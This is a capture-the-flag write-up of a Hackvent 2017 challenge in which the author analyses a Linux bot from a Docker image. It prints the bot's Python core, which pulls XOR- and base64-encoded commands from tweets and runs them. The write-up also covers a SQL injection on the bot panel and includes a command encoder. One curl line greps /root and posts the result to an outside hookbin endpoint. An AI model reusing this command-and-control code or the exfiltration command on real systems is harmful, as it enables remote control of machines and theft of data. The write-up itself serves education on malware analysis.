# Day 20: Linux malware

*Oh boy, this will go wrong... =D*

**Ohai** my name is muffinx...
...um yeah btw. cyberwar just started and you should just pwn everyone?


Make sure you don't leave traces and make the lifes of your opponents harder, but fairplay!

You are a hacker? Then think like a hacker!  
**Attack! Defend! And trick!**

Ladies and gentlemen,  
We understand that you  
Have come tonight  
To bear witness to the sound  
Of drum And Bass

We regret to announce  
That this is not the case,  
As instead  
We come tonight to bring you  
The sonic recreation of the end of the world.

Ladies and gentlemen,  
Prepare  
To hold  
Your  
Colour

OK.  
Fuck it,  
I lied.  
It's drum and bass.  
What you gonna do? 

**WARNING:**  
RUN INSIDE VM, THIS CONTAINER MAYBE DANGEROUS FOR YOUR SYSTEM,  
WE TAKE NO RESPONSIBILITY

You should keep the container inside the same host your haxxing on (same ip) or some things will not work...

`https://hub.docker.com/r/muffinx/hackvent17_linux_malware/`

Hint #1: check https://hub.docker.com/r/muffinx/hackvent17_linux_malware/ for regular updates, keep the container running (on the same ip) when you are haxxing the bot panel  
Hint #2: you can also use https://hookbin.com/ to create private endpoints

### Solution

I have to say I really enjoyed this challenge. Good work, muffinX!

OK, first things first. I pulled the docker image and analyzed it a bit.

```bash
$ docker pull muffinx/hackvent17_linux_malware
$ docker inspect muffinx/hackvent17_linux_malware | grep -A 2 Entrypoint
            "Entrypoint": [
                "./root/loopz.py"
            ],
```

Before actually running it I took a look inside the container to see what's in there.

```bash
$ docker run -i -t --entrypoint=/bin/bash --user=0 muffinx/hackvent17_linux_malware
$ ls /root
bot  checker.py  loopz.py  party.py
```

I copied files located in root's home outside the container for further analysis.

```bash
$ docker run muffinx/hackvent17_linux_malware &
[1] 25202
$ docker ps
CONTAINER ID        IMAGE                              COMMAND             CREATED             STATUS              PORTS               NAMES
94978f1117d5        muffinx/hackvent17_linux_malware   "./root/loopz.py"   5 seconds ago       Up 5 seconds                            cocky_northcutt
$ docker cp 94978f1117d5:/root/bot .
$ docker cp 94978f1117d5:/root/checker.py .
$ docker cp 94978f1117d5:/root/loopz.py .
$ docker cp 94978f1117d5:/root/party.py .
```

Then I inspected those files.

* [bot](files/bot "bot") - 64-bit ELF binary of the bot
* [checker.py](files/checker.py "checker.py") - looks like some heart-beat script which gets `nonce` from [challenges site](http://challenges.hackvent.hacking-lab.com:8081) which is sent bact after 2 seconds
* [loopz.py](files/loopz.py "loopz.py") - simple scheduler script which executes bot binary every 3 seconds
* [party.py](files/party.py "party.py") - purpose of this script is to create random files and directories to distract

I focused on the ELF binary. After decompiling it I realized it unwraps itself (series of ELF binary and Python script layers) using hidden temporary files in `/tmp`. I wrote a simple [bash script](files/capture.sh) which helped me to capture those [layers](files/bot_layers).

The only interesting layer was the [last one](files/bot_layers/7.yVYaePVLvLWESIaMYqVWaXHSjlimNAau), the other ones were just wrappers. It contained a python script hidden inside manual page of `ping` command.

This is the bot's core Python [script](files/bot.py) extracted from the last layer:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import base64, os, re, urllib2
from easyprocess import EasyProcess

os.system('./checker.py')

def x(t): return ''.join([ chr(ord(t[i]) ^ [0x66, 0x66, 0x66, 0x13, 0x37, 0x42, 0x69, 0x33, 0x01, 0x13] [i % 10]) for i in range(len(t)) ])

def ok_cool(c):
    try:
        c = x( base64.b64decode(c))
        EasyProcess(c).call(timeout=2)
    except: pass

def wtf(n):
    t =  base64.b64decode('aHR0cHM6Ly90d2l0dGVyLmNvbS8=') + n #b64decoded: 'https://twitter.com/'
    cs = []

    try:
        c_txt = urllib2.urlopen(t).read()
        cs = re.findall(base64.b64decode('VHdlZXRUZXh0U2l6ZSguKik8L3A='), c_txt) #b64decoded: 'TweetTextSize(.*)</p'
    except: pass

    for c in cs:
        try:
            c = c[c.index('>')+1:]
            if '<a href="/muffiniks" class="twitter-atreply pretty-link js-nav" dir="ltr" data-mentioned-user-id="764117042274373632" ><s>@</s><b>muffiniks</b></a>' in c and ' <a href="/hashtag/hackvent?src=hash" data-query-source="hashtag_click" class="twitter-hashtag pretty-link js-nav" dir="ltr" ><s>#</s><b>hackvent</b></a>' in c and ' rel="nofollow noopener" dir="ltr" data-expanded-url="http://hackvent.hacking-lab.com" class="twitter-timeline-link" target="_blank" title="http://hackvent.hacking-lab.com" ><span class="tco-ellipsis"></span><span class="invisible">http://</span><span class="js-display-url">hackvent.hacking-lab.com</span><span class="invisible"></span><span class="tco-ellipsis"><span class="invisible">&nbsp;</span></span></a> ' in c:
                c = c[c.index(base64.b64decode('TVVGRklOX0JPVE5FVDo='))+len( base64.b64decode('TVVGRklOX0JPVE5FVDo=')):] # b64decoded: 'MUFFIN_BOTNET:'
                c = c[:c.index(base64.b64decode('Ok1VRkZJTl9CT1RORVQ='))] # b64decoded: ':MUFFIN_BOTNET'
                ok_cool(c)
        except: pass

def ohai():
    ns = []
    try:
        n_txt = urllib2.urlopen( base64.b64decode('aHR0cDovL2NoYWxsZW5nZXMuaGFja3ZlbnQuaGFja2luZy1sYWIuY29tOjgwODEvP3R3aXR0ZXI=')).read() # b64decoded: 'http://challenges.hackvent.hacking-lab.com:8081/?twitter'
        ns = list(set([n for n in n_txt.split('|') if len(n) > 1]))
    except: pass
    for n in ns: wtf(n)

ohai()
```

After a quick code analysis I found this:
* `ohai()` functions grabs Twitter account names listed on the [challenge's panel](http://challenges.hackvent.hacking-lab.com:8081/?twitter)
* each name is then passed to `wtf()` function which searches for tweets with specified format and extracts encoded commands from these tweets
* `ok_cool()` decodes commands end executes them

Pretty simple. Next step was to figure out how to add my account name to the list to be able to send commands to the botnet. I looked at the [site panel](http://challenges.hackvent.hacking-lab.com:8081/) which contained an embedded YouTube video and just under it there was a hidden form where I could submit a password. I tried a simple SQL injection to see if it's vulnerable.

I entered `a' --` as a password and got this interesting response:

```
[-] query failed : SELECT AES_ENCRYPT('a' --','muffin_botz_hax_pw') AS enc FROM passwords
```

So I employed `sqlmap` tool to do a blind time-based SQLi to get admin's password in its encrypted form and then I decrypted it with the key `muffin_botz_hax_pw`. The password was `this_pw_is_so_eleet`.

I submited it and got to the next hidden form where I was able to add my Twitter account name to the list.

Then I wrote a simple [script](files/encode_cmd.py) based on knowledge how the bot works to encode my commands to the expected message format.

```python
#!/usr/bin/env python

import base64, sys

def x(t): return ''.join([ chr(ord(t[i]) ^ [0x66, 0x66, 0x66, 0x13, 0x37, 0x42, 0x69, 0x33, 0x01, 0x13] [i % 10]) for i in range(len(t)) ])

def decode(cmd): return x(base64.b64decode(cmd))
def encode(cmd): return base64.b64encode(x(cmd))

prefix = '@muffiniks #hackvent http://hackvent.hacking-lab.com  MUFFIN_BOTNET:'
suffix = ':MUFFIN_BOTNET'

cmd = str(sys.argv[1])

print(prefix + encode(cmd) + suffix)
```

At that point a had control over the botnet and was able to send commands. The last step was to find the right command to get the flag from the challenge server which was part of the botnet. I prepared my [hookbin](https://hookbin.com/) to capture all botnet responses and since I knew challenge server's IP from a DNS lookup I filtered captured responses to IP `80.74.140.188`.

I used following command to find the flag in root's home and send it back to my hookbin.

``` bash
sh -c 'grep -R HV17- /root | base64 -w 0 | curl -d @- https://hookb.in/ZYAg8reb'
```

Encoded it to a tweet:

```bash
$ ./encode_cmd.py "sh -c 'grep -R HV17- /root | base64 -w 0 | curl -d @- https://hookb.in/ZYAg8reb'"
@muffiniks #hackvent http://hackvent.hacking-lab.com  MUFFIN_BOTNET:FQ5GPlRiTlRzdhZGS0EXCj8CNj5GSRR8WDZJTyFxBxUDJQNiREQhI0YaRnBCMAUTLHdGJkszXzYdQ3IpSUkOfFgpCx1ofUk8P1JQehtWYzQ=:MUFFIN_BOTNET
```

Tweeted it and waited for the response from challenge server. This is what i got:

```
/root/secret:HV17-wh4t-4b0ut-n!x-m4l3w4re-4nd-cyberwarezzz?
```